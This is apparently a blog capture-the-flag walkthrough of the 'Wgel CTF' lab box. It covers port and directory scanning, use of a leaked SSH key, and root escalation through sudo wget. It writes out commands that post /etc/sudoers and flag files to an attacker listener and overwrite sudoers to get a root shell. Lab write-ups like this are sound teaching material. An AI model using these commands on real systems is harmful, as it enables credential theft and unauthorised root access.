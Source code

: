 ```yaml
---
layout: post
permalink: /posts/thm/wgel-ctf
title: "Wgel CTF"
---
```


Have fun with this easy box.

Let's begin our enumeration with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/wgel-ctf/nmap.png)

As we can see there are two open ports 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/wgel-ctf/website.png)

It's Apache default page. Let's run directory scan to find any hidden directories.

```
gobuster dir -u http://10.10.22.10 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

We have found `sitemap` directory. Let's visit it.

![sitemap](/assets/images/thm/wgel-ctf/sitemap.png)

I tried some additional directory search.

```
gobuster dir -u http://10.10.22.10/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![gobuster-sitemap](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

hmm this `.ssh` directory looks suspicious

![ssh](/assets/images/thm/wgel-ctf/ssh.png)

Now we have rsa key but we need username as well. Go back to the Apache default page and look the source code.

![source](/assets/images/thm/wgel-ctf/source.png)

Oh... hello Jessie

```
ssh -i id_rsa jessie@10.10.22.10
```

![jessie](/assets/images/thm/wgel-ctf/jessie.png)

We have succefully logged as jessie. Look through the jessie directory and find the user flag. <br/>

Once we find the user flag we need to escalate our privileges. Let's check what we can find with `sudo -l` command

![sudo-l](/assets/images/thm/wgel-ctf/sudo-l.png)

Our user is able to run `wget` command as root. Go and visit <https://gtfobins.github.io/gtfobins/wget/> to see how we can take and advantage of the command. <br/>

As we know the user flag is named user_flag.txt so probably root flag is named root_flag.txt which means we should be able to read the file with the following command

```
sudo wget -i /root/root_flag.txt
```

![wget-read](/assets/images/thm/wgel-ctf/wget-read.png)

I also tried to upload the file on my machine. First set listener.

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/root/root_flag.txt http://<YOUR_MACHINE>:<PORT>
```

Unfortunately both of the tries didn't work for me. Not sure why...

Another thing that we can try is to recieve `/etc/sudoers` and change the permission of our user to be able to execute any sudo commands. Using wget we'll be able to upload and replace the original file with our manipuleted one. Let's try it.

Start listener on your machine

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/etc/sudoers <YOUR_IP>:<PORT>
```

![sudoers](/assets/images/thm/wgel-ctf/sudoers.png)

Now we have the sudoers content, create sudoers file and change the jessie rights to be able to execute all sudo commands without a password.

![sudoers-change](/assets/images/thm/wgel-ctf/sudoers-change.png)

Now start python server on your machine

```
python3 -m http.server
```

On the target machine navigate to `/etc` and download the new sudoers file

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers --output-document=sudoers
```

or

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers -O sudoers
```

Check the rights

```
sudo -l
```

![check](/assets/images/thm/wgel-ctf/check.png)

Now we are able to run any command as root. Let's try it out.

```
sudo /bin/bash
```
![root](/assets/images/thm/wgel-ctf/root.png)
